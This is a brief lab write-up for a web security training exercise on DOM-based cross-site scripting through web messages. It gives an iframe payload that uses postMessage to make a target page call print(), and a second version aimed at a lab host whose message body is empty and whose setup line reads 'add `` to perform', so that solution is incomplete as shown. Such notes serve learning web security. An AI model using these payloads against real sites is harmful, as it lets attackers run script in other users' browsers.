


# DOM XSS using web messages

## This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the `print()` function to be called.

### HINT:

```html
<iframe
  src="//vulnerable-website"
  onload="this.contentWindow.postMessage('print()','*')"
></iframe>
```



add `` to perform

```html
<iframe
  src="https://0a7000e704ee6ee682ca660800d9002d.web-security-academy.net/"
  onload="this.contentWindow.postMessage('','*')"
>
</iframe>
```


